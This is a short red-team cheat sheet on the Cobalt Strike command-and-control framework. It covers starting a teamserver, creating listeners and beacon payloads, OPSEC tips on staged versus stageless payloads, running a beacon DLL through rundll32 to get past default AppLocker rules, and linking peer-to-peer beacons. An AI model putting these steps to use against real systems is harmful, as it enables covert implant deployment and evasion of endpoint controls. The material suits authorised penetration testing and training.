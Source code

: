 # Cobalt Strike

### Great Cobalt-Strike Reading&#x20;

* [https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features](https://www.trustedsec.com/blog/red-teaming-with-cobalt-strike-not-so-obvious-features)
* [https://www.cobaltstrike.com/blog/cobalt-strike-49-take-me-to-your-loader](https://www.cobaltstrike.com/blog/cobalt-strike-49-take-me-to-your-loader)

## Cobalt-Strike cheat sheet.

* All credit for content below goes to:
  * [https://github.com/0xJs](https://github.com/0xJs)&#x20;

**Start teamserver**

```
cd /opt/cobaltstrike
./teamserver <IP> <PASSWORD>
```

**Create a listener**

* Cobalt Strike --> Listeners --> Click the Add button and a New Listener dialogue will appear.
* Choose a descriptive name such as `<protocol>-<port>` example: `http-80`.
* Set the variables and click Save.

**Create a payload**

* OPSEC: Staged payloads are good if your delivery method limits the amount of data you can send. However, they tend to have more indicators compared to stageless. Given the choice, go stageless.
* OPSEC: The use of 64-bit payloads on 64-bit Operating Systems is preferable to using 32-bit payloads on 64-bit Operating Systems.
* Attacks --> Packages --> Windows Executable (S).

**Create dll payload**

* Bypasses default applocker configuration

```
C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
link <COMPUTERNAME>
```

**Create peer-to-peer listener**

* Creating P2P listeners can be done in the Listeners menu, by selecting the TCP or SMB Beacon payload type.
* Then create payload for the new listener!

**Connect to beacon**

* Works like a bind shell. Most used are SMB or TCP.
* Run the payload on the target
* Connect to the beacon with `link` for smb and `connect` for tcp.

```
connect <IP> <PORT>
link <IP>
```
